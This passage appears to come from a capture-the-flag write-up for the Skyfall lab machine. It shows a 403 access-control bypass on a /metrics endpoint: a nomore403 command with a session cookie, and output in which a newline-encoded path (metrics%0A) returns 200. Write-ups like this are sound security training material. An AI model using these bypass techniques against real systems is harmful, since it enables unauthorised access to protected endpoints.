 Filename like `./Welcome.pdf` is invalid, so the application sanitizes and returns only matching filename not path.

After messing around with `Rename File` I got an error:

![Writeup-5.png](/assets/images/Machines/Skyfall/Writeup-5.png)

### Metrics (403 Bypass)

`/metrics` gives 403, bypass via SSRF didn't work. There's many ways of bypassing 403, if we are lucky the authentication might not be based on session cookies.

[Tool to bypass 403/40X response codes. _devploit/nomore403_](https://github.com/devploit/nomore403)

```bash
└─$ nomore403 -u http://demo.skyfall.htb/metrics -H 'Cookie: session=.eJwljkFqBDEMBP_icw62ZcnSfmaQ7BYJgQRmdk8hf89AjtVQTf2UI09c7-XxPF94K8fHLo-SzjkjPJZpj-FQJVoCm02o9eCWvWrU5bBB6MaLyEjZBg9imsKB1M3coM1qVFbu0ywAR9jU-wKNrW7eNKSPvBWv0mWILS13yOvC-V_TblzXmcfz-xNf9yC5KN1zSXQzqrERM33AM2wbGaZDnMrvH5PUP4E.ZnMjHQ.qqPoLPLZyBZStuRW79ltyN1eWbg' -f /opt/nomore403/payloads
Target:                 http://demo.skyfall.htb/metrics
Headers:                {User-Agent nomore403}
Headers:                {Cookie  session=.eJwljkFqBDEMBP_icw62ZcnSfmaQ7BYJgQRmdk8hf89AjtVQTf2UI09c7-XxPF94K8fHLo-SzjkjPJZpj-FQJVoCm02o9eCWvWrU5bBB6MaLyEjZBg9imsKB1M3coM1qVFbu0ywAR9jU-wKNrW7eNKSPvBWv0mWILS13yOvC-V_TblzXmcfz-xNf9yC5KN1zSXQzqrERM33AM2wbGaZDnMrvH5PUP4E.ZnMjHQ.qqPoLPLZyBZStuRW79ltyN1eWbg}
Proxy:                  false
User Agent:             nomore403
Method:                 GET
Payloads folder:        /opt/nomore403/payloads
Custom bypass IP:       false
Follow Redirects:       false
Rate Limit detection:   false
Timeout (ms):           6000
Delay (ms):             0
Techniques:             verbs, verbs-case, headers, endpaths, midpaths, http-versions, path-case
Verbose:                false

━━━━━━━━━━━━━━━ VERB TAMPERING ━━━━━━━━━━━━━━━
405       327 bytes TRACE

━━━━━━━ VERB TAMPERING CASE SWITCHING ━━━━━━━━

━━━━━━━━━━━━━━━━━━ HEADERS ━━━━━━━━━━━━━━━━━━━

━━━━━━━━━━━━━━━ CUSTOM PATHS ━━━━━━━━━━━━━━━━━
500       855 bytes http://demo.skyfall.htb/metrics.html
200     45315 bytes http://demo.skyfall.htb/metrics%0A
302       428 bytes http://demo.skyfall.htb/#metrics
302       428 bytes http://demo.skyfall.htb/#?metrics
302       428 bytes http://demo.skyfall.htb///?anythingmetrics
302       428 bytes http://demo.skyfall.htb/??metrics
302       428 bytes http://demo.skyfall.htb/???metrics
```